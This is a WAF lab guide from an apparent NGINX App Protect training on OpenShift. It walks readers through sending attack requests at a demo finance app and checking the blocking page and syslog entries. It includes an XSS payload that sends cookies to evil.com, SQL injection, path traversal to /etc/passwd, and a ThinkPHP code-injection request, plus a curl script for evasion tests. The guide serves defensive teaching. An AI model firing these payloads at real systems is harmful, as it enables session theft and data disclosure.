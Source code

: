Access the Application and test the NGINX App Protect WAF to see how it works in action
--------------------------------------------------------------------------------------- 


Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

        .. note::  Make sure you get the nginx-ingress EXTERNAL-IP with commmand ``oc get svc --namespace=nginx-ingress``

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 5374014569933997707
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try (Optional)**

.. note:: Execute the attack by appending such string as ``?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`` to the end of the application URL. 

- SQL Injection - ``GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``
- Remote File Include - ``GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``
- Command Execution - ``GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``
- HTTP Parser Attack - ``GET /?XDEBUG_SESSION_START=phpstorm``
- Predictable Resource Location Path Traversal - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``
- Cross Site Scripting - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``
- Informtion Leakage - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``
- HTTP Parser Attack Forceful Browsing - ``GET /dana-na/auth/url_default/welcome.cgi``
- Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - ``GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``
- Cross Site Scripting - ``GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


**and many more from bash script below (Just for your information)**

                .. note:: Execute the attack by running the following bash script from the terminal window 

        .. code-block :: bash

                #!/bin/bash
                echo "------------------------------"
                echo "Starting security testing..."
                echo "------------------------------"
                echo ""
                echo ""

                # Get the external IP address of the NGINX Ingress Controller
                EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

                echo "---------------------------------------------------------------------"
                echo "Multiple decoding"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
                echo "---------------------------------------------------------------------"

                # Send a request with multiple decoding
                curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "IIS Backslashes"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with IIS backslashes
                curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Carriage Return Escaping"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with carriage return escaping
                curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Cross site scripting"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with cross-site scripting payload
                curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"



Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD.  In the terminal window, copy the below text and paste+enter:

        .. code-block:: bash
                
                oc get pod -o wide

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc get pod -o wide
                NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
                app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
                main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
                syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>

#. Examine the logging matching the support ID of the attack
       
        In the terminal window, copy the below text and paste+enter:
        
        .. code-block:: bash

                oc exec -it pod/syslog-bb47bd798-mhh64  -- cat /var/log/messages | grep 7175144470433567675

        Where ``pod/syslog-bb47bd798-mhh64`` is the name of the pod and container where the syslog server is running. ``7175144470433567675`` is support ID of the attack.

        Example: 
               
                .. image:: ./pictures/image13.png

Congratulations on completing the Lab! You have learned how to deploy the NGINX App Protect WAF in Kubernetes and how to use the NGINX App Protect WAF to protect your applications from attacks.




        
